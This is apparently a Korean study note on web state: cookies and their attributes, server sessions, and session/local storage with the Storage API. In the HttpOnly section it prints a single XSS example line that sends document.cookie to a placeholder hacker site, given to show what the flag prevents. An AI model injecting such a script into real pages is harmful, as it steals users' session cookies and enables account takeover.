

# 쿠키, 세션, 웹 스토리지(세션/로컬)
HTTP의 특징은 비연결성(connectionless), 비상태성(stateless)이다.
서버의 자원을 절약하기 위해 사용자의 요청마다 연결과 해제를 하고, 연결 해제 후에는 상태 정보가 저장되지 않는다.  
하지만 로그인을 하면 로그인 상태를 계속 유지하는 등 사용자의 정보를 유지해야 하는 경우가 있다. HTTP의 비연결성, 비상태성을 보완하기 위해 사용되는 것이 바로 쿠키, 웹 스토리지(세션 스토리지, 로컬 스토리지)이다.
> 목차
> 1. [쿠키](#1-쿠키)
> 2. [세션](#2-세션)
> 3. [웹 스토리지(세션/로컬)](#3-웹-스토리지)

## 1. 쿠키
key, value 형태로 웹 브라우저에 정보를 저장하는 파일. 만료 기한이 있다. 문자열 형태로 저장된다.
- 사이트에 접속했을 때 서버가 응답(response) 헤더의 Set-Cookie에 정보를 설정해 보내면 브라우저가 그 부분을 쿠키 파일로 저장한다.
- 사용자가 웹사이트에 http 요청(request)을 할 때 마다 쿠키도 헤더의 Cookie 부분에 실려 매번 함께 보내진다.

### 특징
- 웹 브라우저마다 쿠키를 저장하는 위치와 방법은 다르므로 다른 브라우저에서 생성된 쿠키는 사용할 수 없다.
- 최대 4kB의 크기를 가질 수 있다.
- 클라이언트에 최대 300개 까지 쿠키를 저장할 수 있다.
- 도메인 하나당 최대 50개의 쿠키를 저장할 수 있다.

### 구성 요소
쿠키는 document.cookie 프로퍼티에 아래와 같은 문자열의 형태로 설정한다.
> "name=value; expires=[Date]; Domain=[Domain]; Path=[Path]; [Secure]; HttpOnly"

- **key, value**
- **만료기한**: 쿠키가 만료되는 때. expires(유효 일자)나 max-age(만료 기간)로 설정한다. 이 옵션이 지정되어있지 않으면, 브라우저가 닫힐 때 쿠키도 함께 삭제된다. 이런 쿠키를 "세션 쿠키(session cookie)"라고 부른다.
  - expires: GMT 형식으로 설정, 과거 날짜를 주면 쿠키가 삭제된다.
  - max-age: 초로 설정(예-3600), 음수값을 주면 쿠키가 삭제된다.
- **도메인**: 쿠키를 필요로 하는 웹 서버 도메인 (ex- google.com)
- **경로**: 쿠키를 필요로 하는 웹 페이지 경로명 (ex- / (웹사이트의 최상위))
- **플래그**: 보안을 위한 설정. Secure, HttpOnly가 있다.
  - Secure: HTTPS로 보안 통신하는 경우에만 쿠키가 전송된다.
  - HttpOnly: httpOnly 옵션은 웹서버에서 Set-Cookie 헤더로 쿠키를 설정할 때 지정할 수 있다. 자바스크립트 같은 클라이언트 측 스크립트가 쿠키를 사용할 수 없게 한다. document.cookie를 통해 쿠키를 볼 수도 없고 조작할 수도 없다.  
  다음과 같은 \<script>를 삽입해 쿠키를 알아내는 경우를 방지할 수 있다. 
    ```javascript
    location.href = 'http://해커사이트/?cookies=' + document.cookie;
    ```

### 단점
- 클라이언트 단에 저장되고, 암호화가 되어있지 않다. 임의 수정이나 가로채기가 발생할 수 있어 보안에 취약하다.  
  > *쿠키에는 민감하거나 중요한 정보를 담지 않는 것이 좋다.*
- 매 http 요청(request)마다 쿠키도 함께 포함되어 전송되므로 상당히 많은 트래픽이 소모된다.  
예를 들어 어떤 웹사이트에서 html, css, 이미지를 불러오기 위해 총 77번의 http 요청이 필요하다고 하자. 그러면 77번의 요청에 매번 최대 4kb의 크기를 갖는 쿠키가 포함되므로 불필요한 자원낭비가 생긴다.

### 사용 예
- 자동 로그인 (로컬 스토리지로도 구현할 수 있다)
- '7일간 이 화면 보지 않기'
- 장바구니
- 사용자의 행동 패턴 분석
- 광고 및 상품 추천

## 2. 세션
사용자 정보를 서버에 저장해 관리하는 것. 또는 브라우저와 웹 사이트가 연결된 상황을 지칭하기도 한다.  
두 가지 의미를 갖는 이유는, 세션이 서버에 사용자의 정보를 저장해 관리하고, 로그인 등으로 인증한 사용자에게는 세션 ID를 가진 쿠키를 주어 계속 정보에 접근할 수 있도록 하기 때문이다.
- 클라이언트가 로그인을 하면 서버가 아이디와 비밀번호를 검사해 유효성을 확인한다. 그 다음 unique한 session ID를 생성해 `set-cookie: sessionid=a1x2fjz`처럼 헤더에 쿠키로 실어 보낸다.
- 클라이언트는 서버에 요청(request)할 때마다 session ID를 `cookie: sessionid=a1x2fjz`의 형태로 자동으로 요청헤더에 추가해 요청하게된다.
- 서버에서는 요청헤더의 sessionid 값을 세션저장소에서 찾아보고 유효한지 확인한 후, 요청을 처리하고 응답한다.

### 특징
- 브라우저가 닫히는 순간 세션이 삭제된다. (세션 ID가 더이상 유효하지 않게 된다)
- 쿠키는 탈취와 변조가 가능하지만, 세션은 정보는 서버에 저장되어 있고 클라이언트 쪽에서는 세션 ID값만 가지고 있기 때문에 상대적으로 안전하다.
- 서버의 리소스(ex-RAM)가 기억하고 있는 것이기 때문에 저장 형태는 Object이다.
- 서버에서 정보를 저장하고 처리하기 때문에 내용이 너무 많으면 서버에 부담이 될 수 있고, 쿠키보다는 처리 속도가 느리다.

### 사용 예
로그인할 때 세션에 ID와 닉네임 등을 저장해놓으면 매 번 DB에서 조회할 필요가 없다.

## 3. 웹 스토리지
웹 스토리지에는 세션 스토리지와 로컬 스토리지가 있다. 둘의 차이는 저장 데이터를 다른 윈도우 창이 공유할 수 있느냐와 수명에 있다.  
웹 스토리지는 기존에 쿠키에 정보를 저장하면 http request마다 쿠키가 같이 전송된다는 단점을 보완할 수 있다.

### 특징
- key, value 형태의 문자열로 정보를 저장한다.
- 쿠키와 다르게 웹 스토리지 객체는 네트워크 요청 시 서버로 전송되지 않는다. 이런 특징 때문에 쿠키보다 더 많은 자료를 보관할 수 있다. (약 5MB정도)
- 웹 스토리지 객체는 origin에 묶여있다. (도메인·프로토콜·포트가 같아야 같은 origin). 따라서 프로토콜과 서브 도메인이 다르면 데이터에 접근할 수 없다.
- key는 중복될 수 없으며 key, value 문자열은 대소문자를 구분한다.
- 세션 스토리지와 로컬 스토리지는 동일한 Storage 인터페이스로 접근되므로 메서드도 동일하다.
- 쿠키와 다르게 서버가 HTTP 헤더를 통해 스토리지 객체를 조작할 수 없다. 웹 스토리지 객체 조작은 모두 자바스크립트로 이루어진다.

| 메서드               | 설명                                           |
|---------------------|------------------------------------------------|
| key(index)          | index번째에 저장된 key가 무엇인지 문자열 반환    |
| setItem(key, value) | `session/localStorage["key"] = "value"`와 동일  |
| getItem(key)        | key에 해당하는 value를 문자열로 반환. 없으면 null |
| removeItem(key)     | key의 아이템 삭제                               |
| clear()             | 스토리지의 모든 아이템 삭제                      |




### Session Storage
- 도메인마다 따로 생성된다.
- 같은 도메인이라도 윈도우마다 따로 생성된다.
- 윈도우(window 객체)가 닫히면 세션 스토리지도 삭제된다.
- 윈도우 복제로 생성된 경우, 스크립트를 이용해 새 창을 연 경우 같은 값을 가진 세션 스토리지가 "복제"된다.
- 새로 생성된 윈도우와 기존 윈도우의 세션 스토리지는 서로 영향을 주지 않는다.

### Local Storage
- 도메인마다 따로 생성된다.
- 하지만 같은 도메인, 예를 들면 google.com에 소속된 웹페이지는 모두 같은 로컬 스토리지를 공유한다.
- 지속기간에 제한이 없다. 사용자가 명시적으로 지우지 않는 한 영구적으로 저장된다.
- 도메인이 다르면 서로의 로컬 스토리지에 접근할 수 없다. (google.com과 naver.com은 서로의 로컬 스토리지에 접근할 수 없음)
- Cookie를 이용한 사이트 고유 설정 정보등을 대신하기에 적당하다.

### 사용 예
- sessionStorage - 장바구니
- localStorage - 라이트/다크 테마와 같은 사용자 설정

## Reference
- https://ko.javascript.info/cookie
- https://ko.javascript.info/localstorage
- [[Web] HTTP Only와 Secure Cookie 이해하기](https://nsinc.tistory.com/121)
- https://chrisjune-13837.medium.com/web-%EC%BF%A0%ED%82%A4-%EC%84%B8%EC%85%98%EC%9D%B4%EB%9E%80-aa6bcb327582
- https://croute.me/419